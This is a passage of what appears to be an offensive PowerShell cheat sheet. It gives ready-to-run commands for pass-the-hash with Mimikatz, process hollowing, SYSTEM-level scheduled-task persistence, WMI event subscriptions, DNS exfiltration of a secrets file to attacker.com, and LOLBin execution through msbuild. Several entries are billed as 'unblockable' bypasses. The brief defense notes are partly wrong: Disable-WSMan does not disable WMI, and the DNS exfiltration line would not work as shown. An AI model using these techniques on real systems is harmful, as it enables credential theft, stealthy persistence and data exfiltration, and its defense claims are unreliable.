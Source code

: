 #### **C. Pass-the-Hash**  
```powershell  
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Admin /domain:corp /ntlm:HASH /run:cmd.exe"'  
```  
- **Impact**: Authenticates as a user without knowing their password.  
- **Defense**: Disable **NTLM** and enforce **Kerberos**.  

---

### **3. Evasion & Persistence**  
#### **A. Process Hollowing**  
```powershell  
$proc = Start-Process notepad.exe -PassThru -WindowStyle Hidden  
Invoke-ReflectivePEInjection -PEBytes $shellcode -ProcessID $proc.Id  
```  
- **Impact**: Runs malware inside a legitimate process (e.g., `notepad.exe`).  
- **Defense**: Monitor for code injection via EDR.  

#### **B. Hidden Scheduled Tasks**  
```powershell  
Register-ScheduledTask -TaskName "LegitTask" -Action (New-ScheduledTaskAction -Execute "malware.exe") -Trigger (New-ScheduledTaskTrigger -AtStartup) -User "NT AUTHORITY\SYSTEM" -Force  
```  
- **Impact**: Persists across reboots as SYSTEM.  
- **Defense**: Audit tasks with `Get-ScheduledTask | Where-Object { $_.TaskPath -notlike "\Microsoft*" }`.  

#### **C. WMI Event Subscription**  
```powershell  
$filterArgs = @{Name='MaliciousFilter'; EventNameSpace='root\CimV2'; Query="SELECT * FROM __InstanceModificationEvent"};  
$filter = New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $filterArgs  
```  
- **Impact**: Triggers payloads on system events (e.g., process creation).  
- **Defense**: Disable WMI via `Disable-WSMan`.  

---

### **4. "Unblockable" Techniques**  
*(Bypass common restrictions)*  

#### **A. DNS Exfiltration**  
```powershell  
# Exfiltrate data via DNS queries  
Resolve-DnsName -Name "$([Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\secrets.txt'))).attacker.com" -Type TXT  
```  
- **Why Unblockable?**: DNS is rarely blocked outright.  
- **Defense**: Monitor DNS for base64 patterns.  

#### **B. Living-off-the-Land (LOLBins)**  
```powershell  
# Use legitimate tools like msbuild.exe to execute code  
msbuild.exe C:\malware.xml  
```  
- **Why Unblockable?**: Uses trusted Microsoft binaries.  
- **Defense**: Restrict execution of LOLBins via AppLocker.  
